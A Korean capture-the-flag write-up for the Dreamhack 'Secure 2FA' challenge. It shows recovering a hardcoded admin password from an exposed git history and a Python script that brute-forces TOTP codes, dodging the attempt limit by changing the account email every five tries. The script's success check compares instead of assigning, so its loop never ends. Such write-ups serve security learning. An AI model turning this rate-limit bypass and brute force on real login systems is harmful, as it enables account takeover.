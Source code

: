# Secure 2FA
https://dreamhack.io/wargame/challenges/1251
## Description
```
드림이가 만든 웹 서비스의 git 리포지토리가 유출되었어요.
admin의 비밀번호도 숨겨 놓고 TOTP (Time-based One-Time Password)도 적용해서 안전하다는데...

git 리포지토리와 소스 코드를 분석하여 취약점을 찾고 익스플로잇하여 플래그를 획득하세요!

플래그 형식은 DH{...} 입니다.
```

# Exploit

## Get password
노출된 `.git`파일을 이욯해 `git cat-file` `git diff`로 과거 커밋에서 하드코딩된 비밀번호 확인 가능.
```
const ADMIN_PASSWORD = '7h15_i5_4dm1n_p4S5wo2d_:)';
const ADMIN_SECRET = process.env.ADMIN_SECRET;
```

## TOTP bypass

```js
async function getFailureCount(username) {
    const expirationSeconds = getExpirationSeconds();
    const redisKey = `TOTP_AUTH_FAILURE_COUNT:${accounts[username].email}`;
    const ret = await redisClient.multi()
        .incr(redisKey)
        .expire(redisKey, expirationSeconds, 'NX')
        .exec();
    return ret[0] - 1;
}
```
TOTP인증 제한회수를 확인해보면 `accounts[username].email`을 사용한다.
<br><br>

```js
app.get('/mypage', (req, res) => {
    if (req.session.isSignedIn !== true) {
        res.status(403);
        res.send('you are not signed in.');
        return;
    }

    const username = req.session.username;
    account = accounts[username];

    res.render('mypage', {
        username: username,
        name: account['name'],
        age: account['age'],
        email: account['email']
    });
});
```
`/mypage`엔드포인트에서는 `account['email']`의 값을 수정할 수 있다.

`TOTP`를 5회 시도하고 `email`을 바꾸는 방식으로 무작위 대입을 할 수 있다.    

## Exploit
```py
import requests
import random
import string
import sys


class Exploit():
    def __init__(self, port):
        self.status = False
        self.token = 100000
        self.baseurl = 'http://host3.dreamhack.games:'+port
        self.s = requests.session()

    def changeEmail(self):
        email = ''.join([string.ascii_letters[random.randint(1, 50)] for i in range(10)])
        data = {
            'name': 'Carl Dream',
            'age': 0,
            'email': f"{email}@example.com"
        }
        self.s.post(url=self.baseurl+'/mypage', data=data)

    def adminLogin(self):
        data = {
            'username': 'admin',
            'password': '7h15_i5_4dm1n_p4S5wo2d_:)'
        }
        self.s.post(url=self.baseurl+'/signin', data=data)

    def attack(self):
        self.adminLogin()
        while self.status == False:
            data = {'token': self.token}
            r = self.s.post(url=self.baseurl+'/admin', data=data)
            print(f"token > {self.token} {r.status_code} {r.text}")
            if self.token % 5 == 0:
                self.changeEmail()
            if r.status_code == 200:
                self.status == True
            self.token += 1


if __name__ == "__main__":
    Exploit(port=sys.argv[1]).attack()
```
FLAG를 얻을 수 있다.

